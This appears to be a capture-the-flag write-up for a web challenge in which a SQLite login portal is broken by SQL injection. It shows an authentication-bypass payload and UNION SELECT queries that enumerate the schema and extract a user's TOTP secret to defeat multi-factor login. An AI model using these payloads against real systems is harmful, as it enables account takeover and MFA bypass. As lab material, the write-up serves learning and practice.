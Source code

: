 # [Web] Touch Of The Paranoid

## Background

The description given for this challenge was:
```
We're happy to announce that we now support multi-factor authentication. Our login portal is now bulletproof and unhackable! Our first user mentioned something about Google Authenticator...

PS: No bruteforce is needed, you will be throttled if you try. 
```

<br/>

## Login Portal

<p align="center">
    <img src="images/TouchOfTheParanoid01.png" style="width:50%;" /><br/>
</p>

Upon visiting the provided link we are first greeted with a login portal. First instincts is to test the fields for any SQL injection vulnerability by entering quotes `"` in both of the fields.

And bingo! An error was thrown back to the DOM indicating that the portal uses SQLite3 and the fields are indeed vulnerable.

```
sqlite3.OperationalError: unrecognized token: "6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b"
```

<br/>

Next, I tried entering `1" or 1=1--` into both fields and it seems that I have succesfully infiltrated into the admin account. However, we are still required to enter a 6 digit OTP in order to proceed.

<p align="center">
    <img src="images/TouchOfTheParanoid02.png" style="width:50%;" /><br/>
</p>

<br>

Seems like further digging of the database is required to gain access into the portal. A quick Google search for `"sqlite3 sql injection"` can get us some useful queries required for sniffing out the data. I first start with sniffing out the table name:

`
1" UNION SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_sequence' -
`

Which resulted in:
```
Hello users! Please enter the 6 digit code from your authentication app
```

<br>

Looks like our table name is `users`. Next we try to get the create table statement for table `users` which will show us all the columns.

`
1" UNION SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users' --
`

Which resulted in:
```
Hello CREATE TABLE `users` (`username` TEXT, `password` TEXT, `secret` TEXT, `id` INTEGER PRIMARY KEY AUTOINCREMENT)! Please enter the 6 digit code from your authentication app
```

<br>

Next we will try to extract the secret field from the users table:

`
1" UNION SELECT secret FROM users --
`

Which resulted in:
```
Hello 6C7GGJVTU4NSELOZ! Please enter the 6 digit code from your authentication app
```

<br>

Nice, we have now gotten hold of our OTP secret key `6C7GGJVTU4NSELOZ`. We can now key this key in Google Authenticator or any other MFA apps to generate our OTP.

Now, we have to login back to admin with `1" or 1=1--` and key in the newly generated OTP into the field and viola! We got our flag!

<p align="center">
    <img src="images/TouchOfTheParanoid03.png" style="width:50%;" /><br/>
</p>

```
CTFSG{d0nt_b3_afrA1d_oF_n33dLes}
```
